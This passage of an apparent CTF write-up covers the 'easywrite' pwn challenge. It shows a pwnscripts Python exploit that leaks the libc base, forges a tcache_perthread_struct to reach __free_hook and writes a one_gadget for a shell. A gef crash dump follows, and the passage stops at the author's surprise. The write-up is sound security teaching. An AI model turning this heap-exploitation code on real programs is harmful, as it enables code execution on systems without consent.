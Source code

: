 All that's left to do is to grab a one_gadget and run with it:
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

context.log_level = 'debug'
r = context.binary.process()
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

def tcache_perthread_struct(fake_ptrs: dict):
    '''fake_ptrs has (address: size) key-pairs'''
    def csize2tidx(x): return (x-1)//16 -1
    TCACHE_MAX_BINS = 0x40

    counts = [0 for _ in range(TCACHE_MAX_BINS)]
    entries = [0 for _ in range(TCACHE_MAX_BINS)]
    for addr,size in fake_ptrs.items():
        tidx = csize2tidx(size)
        counts[tidx] += 1
        entries[tidx] = addr
    return b''.join(map(p16,counts)) + b''.join(map(p64,entries))

SIZE = 0x40 # size of the 2nd allocation
free_hook = 0x00000000001EEB28+context.libc.address
tcache_pointer = 0x7facf8666530-0x00007facf8473000 + context.libc.address
fake_tcache = tcache_perthread_struct({free_hook: SIZE})

r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', pack(context.libc.select_gadget(1)))

r.interactive()
```
And we get a shell:
```c
 stack 
[!] Unmapped address
 code:x86:64 
   0x7f792a05bda9 <execvpe+1337>   mov    rax, QWORD PTR [rbp-0x68]
   0x7f792a05bdad <execvpe+1341>   mov    QWORD PTR [rbp-0x48], rax
   0x7f792a05bdb1 <execvpe+1345>   jmp    0x7f792a05bcdb <execvpe+1131>
 → 0x7f792a05bdb6 <execvpe+1350>   call   0x7f792a0a7970 <__stack_chk_fail>
   ↳  0x7f792a0a7970 <__stack_chk_fail+0> endbr64
      0x7f792a0a7974 <__stack_chk_fail+4> push   rax
      0x7f792a0a7975 <__stack_chk_fail+5> pop    rax
      0x7f792a0a7976 <__stack_chk_fail+6> lea    rdi, [rip+0x876e7]        # 0x7f792a12f064
      0x7f792a0a797d <__stack_chk_fail+13> sub    rsp, 0x8
      0x7f792a0a7981 <__stack_chk_fail+17> call   0x7f792a0a7990 <__fortify_fail>
 arguments (guessed) 
__stack_chk_fail (
)
 threads 
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x7f792a05bdb6 in execvpe (), reason: SIGSEGV
 trace 
[#0] 0x7f792a05bdb6 → execvpe()
[#1] 0x7f7929f9c0b3 → __libc_start_main()
[#2] 0x7f792a16a17e → hlt
[#3] 0x7ffe534a51a8 → sbb al, 0x0

gef➤
```
Wait, what?